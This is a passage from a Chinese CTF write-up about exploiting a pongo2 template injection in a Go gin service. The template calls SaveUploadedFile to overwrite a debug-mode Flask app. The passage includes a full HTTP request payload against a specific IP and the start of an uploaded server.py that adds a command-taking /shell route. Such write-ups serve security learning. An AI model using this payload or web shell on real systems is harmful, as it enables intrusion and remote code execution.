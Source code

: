 ![image-20230527130327648](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305271303679.png)

之后是 pongo2 ssti

参考文档:

[https://github.com/flosch/pongo2](https://github.com/flosch/pongo2)

[https://pkg.go.dev/github.com/gin-gonic/gin](https://pkg.go.dev/github.com/gin-gonic/gin)

注意到源码在编译模版的时候到 context 只传了 gin.Context, 所以猜测肯定是要从这方面入手

经过一段时间的测试和搜索找到这篇文章

[https://www.imwxz.com/posts/2b599b70.html#template%E7%9A%84%E5%A5%87%E6%8A%80%E6%B7%AB%E5%B7%A7](https://www.imwxz.com/posts/2b599b70.html#template%E7%9A%84%E5%A5%87%E6%8A%80%E6%B7%AB%E5%B7%A7)

一个任意文件写, 又想到上面的 flask 开了 debug 模式, 而在 debug 模式下 flask 会动态更新源码的内容

所以思路是通过 FormFile 和 SaveUploadedFile 上传文件覆盖掉之前的 flask 源码, 然后访问 /flask 路由 rce

源码路径可以在报错信息中找到

```
http://123.56.244.196:17997/flask?name=
```

![image-20230527130906244](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202305271309280.png)

最后因为模版编译前会通过 html 编码把单双号转义, 所以需要换个方式传入字符串

发现 gin.Context 里面包装了 Request 和 ResponseWriter, 这里随便找了个 `Request.UserAgent()`

```go
// UserAgent returns the client's User-Agent, if sent in the request.
func (r *Request) UserAgent() string {
	return r.Header.Get("User-Agent")
}
```

最终 payload

```
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.Request.UserAgent()),c.Request.UserAgent())}} HTTP/1.1
Host: 123.56.244.196:17997
Content-Length: 613
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrxtSm5i2S6anueQi
User-Agent: /app/server.py
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Cookie: session-name=MTY4NTE1ODc3OHxEdi1CQkFFQ180SUFBUkFCRUFBQUlfLUNBQUVHYzNSeWFXNW5EQVlBQkc1aGJXVUdjM1J5YVc1bkRBY0FCV0ZrYldsdXzlZGsWROWLHoCNn0Pbu3SkgRLWCZRrj8UIHVYgHU7GPw==
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

------WebKitFormBoundaryrxtSm5i2S6anueQi
Content-Disposition: form-data; name="/app/server.py"; filename="server.py"
Content-Type: text/plain

from flask import Flask, request
import os

app = Flask(__name__)

@app.route('/shell')
def shell():
    cmd = request.args.get('cmd')
    if cmd:
```